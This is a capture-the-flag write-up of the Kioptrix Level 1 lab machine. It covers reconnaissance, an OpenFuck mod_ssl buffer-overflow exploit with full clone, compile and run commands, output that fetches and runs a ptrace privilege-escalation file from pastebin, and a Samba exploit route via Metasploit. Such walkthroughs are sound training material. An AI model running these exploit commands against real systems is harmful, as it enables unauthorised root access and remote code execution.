# GETTING STARTED

To download Kioptrix level 1, click [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

**DISCLAIMER**
> This writeup documents the steps that successfully led to pwnage of the machine. It does not include the dead-end steps encountered during the process (which were numerous). I recommend attempting to solve the lab independently. If you find yourself stuck on a phase for more than a day, you may refer to the writeups for guidance. Please note that this is just one approach to capturing all the flags, and there are alternative methods to solve the machine.

------------------------------------------------------------------------------------
# RECONNAISSANCE
I quickly ran a network scan with `netdiscover` to pinpoint the target.

```bash

┌──(root㉿kali)-[~/ctf/kioptrix-1]
└─# netdiscover -r 192.168.1.0/24

 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     f8:c4:f3:d0:63:13      1      60  Shanghai Infinity Wireless Co. 
 192.168.1.104   00:0c:29:24:cb:c7      1      60  VMware, Inc. 
```
Hence, the target IP is identified as _192.168.1.104_.

Next, I performed an aggressive scan with `nmap` to uncover open ports and services.




------------------------------------------------------------------------------------
# EXPLOITATION PATH 1
With port 80 open, I accessed it through my browser.



Finding nothing of interest on the homepage, I ran a `nikto` scan. The scan revealed an outdated Apache version and SSL running on the server.

```bash

nikto -h http://192.168.1.104
```



I Googled vulnerabilities for both and found exploits for mod_ssl. It turned out to be vulnerable to remote buffer overflow. To learn more about the exploit, I checked the following pages:
- [GitHub: OpenLuck](https://github.com/heltonWernik/OpenLuck)

>A buffer overflow is a type of vulnerability that occurs when a program writes more data to a block of memory, or buffer, than it can hold. This extra data can overwrite adjacent memory, which can lead to unexpected behavior, crashes, or even allow an attacker to execute arbitrary code.

I quickly download the exploit and compile it using the following steps

```bash

#clone the repo
git clone https://github.com/heltonWernik/OpenFuck.git

#install dependency
apt-get install libssl-dev

#compile the code
cd OpenFuck
gcc OpenFuck.c -lcrypto

#run the exploit
./a.out
```

```bash

┌──(root㉿kali)-[~/ctf/kioptrix-1/OpenFuck]
└─# ./a.out                             

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./a.out target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
		.
		.
		.
        0x44 - RedHat Linux ?.? GENERIC (apache-1.3.12-1)
        0x45 - RedHat Linux TEST1 (apache-1.3.12-1)
        0x46 - RedHat Linux TEST2 (apache-1.3.12-1)
        0x47 - RedHat Linux GENERIC (marumbi) (apache-1.2.6-5)
        0x48 - RedHat Linux 4.2 (apache-1.1.3-3)
        0x49 - RedHat Linux 5.0 (apache-1.2.4-4)
        0x4a - RedHat Linux 5.1-Update (apache-1.2.6)
        0x4b - RedHat Linux 5.1 (apache-1.2.6-4)
        0x4c - RedHat Linux 5.2 (apache-1.3.3-1)
        0x4d - RedHat Linux 5.2-Update (apache-1.3.14-2.5.x)
        0x4e - RedHat Linux 6.0 (apache-1.3.6-7)
        0x4f - RedHat Linux 6.0 (apache-1.3.6-7)
        0x50 - RedHat Linux 6.0-Update (apache-1.3.14-2.6.2)
        0x51 - RedHat Linux 6.0 Update (apache-1.3.24)
        0x52 - RedHat Linux 6.1 (apache-1.3.9-4)1
        0x53 - RedHat Linux 6.1 (apache-1.3.9-4)2
        0x54 - RedHat Linux 6.1-Update (apache-1.3.14-2.6.2)
        0x55 - RedHat Linux 6.1-fp2000 (apache-1.3.26)
        0x56 - RedHat Linux 6.2 (apache-1.3.12-2)1
        0x57 - RedHat Linux 6.2 (apache-1.3.12-2)2
        0x58 - RedHat Linux 6.2 mod(apache-1.3.12-2)3
        0x59 - RedHat Linux 6.2 update (apache-1.3.22-5.6)1
        0x5a - RedHat Linux 6.2-Update (apache-1.3.22-5.6)2
        0x5b - Redhat Linux 7.x (apache-1.3.22)
        0x5c - RedHat Linux 7.x (apache-1.3.26-1)
        0x5d - RedHat Linux 7.x (apache-1.3.27)
        0x5e - RedHat Linux 7.0 (apache-1.3.12-25)1
        0x5f - RedHat Linux 7.0 (apache-1.3.12-25)2
        0x60 - RedHat Linux 7.0 (apache-1.3.14-2)
        0x61 - RedHat Linux 7.0-Update (apache-1.3.22-5.7.1)
        0x62 - RedHat Linux 7.0-7.1 update (apache-1.3.22-5.7.1)
        0x63 - RedHat Linux 7.0-Update (apache-1.3.27-1.7.1)
        0x64 - RedHat Linux 7.1 (apache-1.3.19-5)1
        0x65 - RedHat Linux 7.1 (apache-1.3.19-5)2
        0x66 - RedHat Linux 7.1-7.0 update (apache-1.3.22-5.7.1)
        0x67 - RedHat Linux 7.1-Update (1.3.22-5.7.1)
        0x68 - RedHat Linux 7.1 (apache-1.3.22-src)
        0x69 - RedHat Linux 7.1-Update (1.3.27-1.7.1)
        0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
        0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
        0x6c - RedHat Linux 7.2-Update (apache-1.3.22-6)
        0x6d - RedHat Linux 7.2 (apache-1.3.24)
        0x6e - RedHat Linux 7.2 (apache-1.3.26)
        0x6f - RedHat Linux 7.2 (apache-1.3.26-snc)
		.
		.
		.
		more such platforms
```

The `nikto` scan provided insights into the platform type and Apache version, leaving me with two options: `0x6a` and `0x6b`. After attempting both, I successfully gained access using `0x6b`.




```bash

┌──(root㉿kali)-[~/ctf/kioptrix-1/OpenFuck]
└─# ./a.out 0x6b 192.168.1.104 443 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--11:06:22--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

11:06:22 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 6249
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```

I directly got **root** access using this method! 

I look around and find the flag in the */var/mail* directory.

```bash

- ls
bin
boot
dev
etc
home
initrd
lib
lost+found
misc
mnt
opt
proc
root
sbin
tmp
usr
var

- cd var
- ls
arpwatch
cache
db
ftp
lib
local
lock
log
lost+found
mail
nis
opt
preserve
run
spool
tmp
tux
www
yp

- cd mail 
- ls
harold
john
nfsnobody
root

- cat root
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
        by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
        for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: O

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...

From root  Mon Jun  3 10:11:10 2024
Return-Path: <root@kioptrix.level1>
Received: (from root@localhost)
        by kioptrix.level1 (8.11.6/8.11.6) id 453EBAl01086
        for root; Mon, 3 Jun 2024 10:11:10 -0400
Date: Mon, 3 Jun 2024 10:11:10 -0400
From: root <root@kioptrix.level1>
Message-Id: <202406031411.453EBAl01086@kioptrix.level1>
To: root@kioptrix.level1
Subject: LogWatch for kioptrix.level1

 ################## LogWatch 2.1.1 Begin ##################### 

 ###################### LogWatch End ######################### 
```

------------------------------------------------------------------------------------
# EXPLOITATION PATH 2
The nmap scan revealed an SMB service running on port 139. To delve deeper and gather information about the server, I utilized `enum4linux`. 



Since I didn't uncover any useful information with `enum4linux`, I switched gears and launched Metasploit using `msfconsole`

I searched for auxiliary modules to gather SMB information.


I searched through Metasploit and came across an auxiliary module called `auxiliary/scanner/smb/smb_scanner` that can detect the SMB version.



I look around for exploits related to this on google and metasploit.


I also discovered an exploit on Exploit-DB at [https://www.exploit-db.com/exploits/10](https://www.exploit-db.com/exploits/10). I attempted both exploits and successfully obtained a shell using each of them.



Since the Meterpreter shell failed to spawn, I attempted to spawn a regular shell instead.



I explored the system and discovered the flag located in /var/mail.


**ALTERNATIVELY I ALSO TRY THE TOOL FOUND THROUGH GOOGLE**

Utilizing the exploit discovered via Google, I downloaded it onto my system.



I compiled the C code





Finally I ran the exploit



I navigated to the flag located in `/var/mail`. 

------------------------------------------------------------------------------------
# CLOSURE
I found and captured the flag located in **/var/mail**.

Here's a summary of how I pwned the machine:-
*HTTP*
- I performed a nikto scan and identified the Apache version.
- I searched for known vulnerabilities and found an exploit.
- I used the exploit and got root access.

*SMB*
- I ran a metasploit auxiliary to identify the version of the smb server.
- I searched for exploits related to this server and found one.
- I used this exploit and got root access.

That's it from my side. Time to solve Level 2 ;)


------------------------------------------------------------------------------------